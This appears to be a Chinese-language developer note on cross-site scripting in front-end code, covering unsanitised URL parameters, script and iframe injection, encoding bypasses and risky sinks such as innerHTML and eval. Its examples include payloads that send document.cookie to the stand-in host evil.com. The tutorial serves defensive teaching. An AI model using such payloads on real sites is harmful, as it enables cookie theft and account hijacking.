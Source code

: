 # node

## xss
最常规的 XSS. 很简单的例子, 像前端很多时候是需要处理分页的, 那么非常危险的就是像:
```
http://www.example.com/?page=2
```
很多人会直接使用 location.search.split('=')[1]; 然后没有对值进行处理就直接渲染到界面上.
react 天生反 xss 是因为它渲染的时候是会解码的, 但是其他框架就不知道了.
你可以直接修改:
```
http://www.example.com/?page=<img src="evil.com/getYourpassword">
```
这样, 如果别人发你一个这样的链接, 普通用户没有注意的话, 就有可能盗窃 cookie.
所以不要存储任何敏感信息在客户端, 非常不安全.

如果你不是直接渲染到 html, 而是 script 标签, 还是一样的:
```
http://www.example.com/page=2
http://www.exmaple.com/?page=2;alert(document.cookie);

<script>
  var page = location.search.split('=')[1];
</script>
```
如果是下面的链接, 你没有做过滤, 那么就已经被注入代码执行了.
形式可以多样, 目的是为了闭合变量赋值, 然后插入其他代码:
```
http://www.example.com/?page='';alert(document.cookie);</script><script src="evil.com/sendCookie=" + document.cookie></script>
```
而简单地过滤单双引号, 尖括号等等是不行的, 因为 html 有十进制, js 有十六进制转码.
如果不能简单地使用 ', 但是可以通过 \', %22 这样的形式来达到目的, 所以像反引号, % 等等转码符
都是需要转码的.
上面的东西, 后端需要注意的大于前端需要注意的, 但是前端并不意味着不需要做解码, 前端在现实开发中
没有遇到过这样的问题大多是后台帮忙预防了.
但是前端需要注意的 xss 侵入点就在于客户端代码编写问题上.不要相信 location.search, location.hash, document.referrer.
还有一个典型的例子就是 iframe 中的 src 属性, 如果没有编码直接用的话, 如果像:
```
www.example.com/?path=./test.html

<iframe src="./test.html">
</iframe>
```
如果 ./test.html 变为 http://www.baidu.com 也是完全可以注入的.注入 js 也是可以的, 就是
```
www.example.com/?path=javascript:alert(document.cookie);

<iframe src=javascript:alert(document.cookie)></iframe> 
```
也是可以的.
像 innerHTML, eval, setTimeout, setInterval, location, location.href, location.hash 都能造成
xss.
